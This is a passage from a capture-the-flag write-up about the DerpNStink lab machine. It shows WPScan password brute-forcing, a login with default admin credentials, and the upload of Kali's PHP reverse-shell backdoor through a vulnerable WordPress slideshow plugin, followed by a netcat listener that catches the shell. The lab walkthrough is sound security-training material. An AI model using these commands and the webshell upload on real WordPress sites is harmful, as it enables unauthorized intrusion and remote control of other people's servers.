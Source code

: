 All the exploits given by WPScan seem to be authenticated which is not yet possible so we will look for a way to gain user access.

I will try bruteforcing since WPScan has an option for bruting passwords. This is the command:

<pre>wpscan --url http://derpnstink.local/weblog/ --passwords /usr/share/wordlists/rockyou.txt --username { user } </pre>

I have used the --passwords option to indicate a brute-forcing session. I have given a path to a passwords list and will provide a username after the --username parameter. I first tried unclestinky then admin.

After some time there were no results. I tried the default admin credentials which gave a successful login. For some reason, the rockyou.txt file didn’t contain “admin”.

### User

Now that we have authenticated access, we can use an exploit given in the WPScan results. This exploit is ideal.

[Expoloit DB](https://www.exploit-db.com/exploits/34514)

No need to use the code. Just create a .php payload to upload on the vulnerable slideshow vulnerability. There is a premade .php backdoor under the webshells directory on Kali Linux.

![payload](https://imgur.com/QM2KDEB.png)

I copied this in my current directory with the following command:

<pre>locate webshells
cp /usr/share/webshells/php/php-reverse-shell.php .</pre>

Edit the payload accordingly. Add your local IP address and a port you will be listening on.

<pre>nano php-reverse-shell.php</pre>

![edit](https://imgur.com/u6sguJx.png)

This is ready to upload to the slideshow plugin on Wordpress. Go to the WP web interface > slideshow and add your slide show.

Add in some information into the fields and upload your payload under "Choose Image". Save the changes.

![upload](https://imgur.com/lK6wqw9.png)

Before executing the payload, we need to listen on the chosen port. Set up a netcat session and listen on your specified port.

<pre>nc -nvlp 4444</pre>

Everything should be ready. Simply click on the slideshow you have just created to execute the payload. You can do this from the main “slideshow” page.

![session](https://imgur.com/j18SPM2.png)

We have a reverse shell!
